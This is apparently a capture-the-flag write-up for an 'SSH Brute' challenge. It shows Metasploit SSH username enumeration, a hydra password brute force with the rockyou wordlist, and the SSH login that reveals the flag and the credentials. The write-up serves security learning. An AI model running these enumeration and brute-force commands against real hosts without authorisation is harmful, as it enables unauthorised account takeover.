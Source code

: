 # SSH Brute

## Overview

- Overall difficulty for me: Easy

**In this challenge, we can spawn a docker instance:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/GuidePoint-Security-Oct27-2022/images/Pasted%20image%2020221030064109.png)

## Find the flag

**First, we need to brute force the username:**

**To do so, I'll use MetaSploit's `scanner/ssh/ssh_enumusers` module:**
```
┌──(root🌸siunam)-[~/ctf/GuidePoint-Security-Oct27-2022/Web/SSH-Brute]
└─# msfconsole
[...]
msf6 > use scanner/ssh/ssh_enumusers
msf6 auxiliary(scanner/ssh/ssh_enumusers) > set RHOSTS 10.10.100.200
msf6 auxiliary(scanner/ssh/ssh_enumusers) > set RPORT 47074
msf6 auxiliary(scanner/ssh/ssh_enumusers) > set USER_FILE /usr/share/seclists/Usernames/xato-net-10-million-usernames-dup.txt

msf6 auxiliary(scanner/ssh/ssh_enumusers) > run
[*] 10.10.100.200:47074 - SSH - Using malformed packet technique
[*] 10.10.100.200:47074 - SSH - Starting scan
[+] 10.10.100.200:47074 - SSH - User 'monkey' found
[+] 10.10.100.200:47074 - SSH - User 'root' found
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

- Found username: `monkey`

**Next, we can use `hydra` to brute force it's password:**
```
┌──(root🌸siunam)-[~/ctf/GuidePoint-Security-Oct27-2022/Web/SSH-Brute]
└─# hydra -l monkey -P /usr/share/wordlists/rockyou.txt ssh://10.10.100.200 -s 47074 
[...]
[47074][ssh] host: 10.10.100.200   login: monkey   password: ginger
```

**Found it! Let's SSH into `monkey` and cat the flag!**
```
┌──(root🌸siunam)-[~/ctf/GuidePoint-Security-Oct27-2022/Web/SSH-Brute]
└─# ssh monkey@10.10.100.200 -p 47074
monkey@10.10.100.200's password: 
[...]

3b97d5b2bdf1:~$ ls -lah
[...]
-rw-------    1 monkey   monkey         8 Oct 30 10:43 .ash_history
-rw-r--r--    1 monkey   monkey        41 Oct 24 16:07 flag.txt

3b97d5b2bdf1:~$ cat flag.txt
GPSCTF{b41aef848fbf49e7721df51a542e3971}
```

We got the flag!

# Conclusion

What we've learned:

1. Enumerating SSH Username and Brute Forcing SSH Password via `hydra`